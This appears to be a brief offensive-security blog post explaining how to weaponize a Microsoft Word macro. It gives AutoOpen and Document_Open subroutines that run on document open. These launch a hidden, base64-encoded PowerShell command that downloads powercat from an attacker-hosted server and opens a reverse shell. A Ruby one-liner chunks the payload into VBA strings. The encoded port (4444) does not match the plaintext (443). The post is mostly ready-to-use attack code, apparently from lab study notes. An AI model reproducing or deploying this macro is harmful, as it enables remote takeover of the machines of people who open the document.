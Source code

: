 ```yaml
---
layout: post
title: office macros
titledate: 09/05/23
tags: ["infosec","offsec", "macros", "powershell", "shell"]
---
```


when creating a macro in word

view -> macros -> view macros -> TitleMacro and choose your current document from Macros In

AutoOpen and Document_Open are necssary to automatically execute our macro upon the document execution

for our payload we'll download powercat from our hosted web server and base64 it UTF16-LE

  IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.x.x/powercat.ps1');powercat -c 192.168.x.x -p 443 -e powershell

we have a string size limitation so we need to split our string into length of 50

ruby one liner 
  
  payload = SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS4xNTQvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4xNTQgLXAgNDQzIC1lIHBvd2Vyc2hlbGw=

  payload.chars.each_slice(50).map(&:join).each{|arr|p "Str = Str + #{arr}"}
  

```vb
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
  Dim Str as String

  Str = Str + "powershell.exe -nop -w hidden -enc "
  Str = Str + "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdA"
  Str = Str + "BlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE"
  Str = Str + "AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AH"
  Str = Str + "AAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANQA0AC8A"
  Str = Str + "cABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQ"
  Str = Str + "ByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAu"
  Str = Str + "ADEANQA0ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AG"
  Str = Str + "UAcgBzAGgAZQBsAGwA"
  
  CreateObject("Wscript.Shell").Run Str
End Sub
```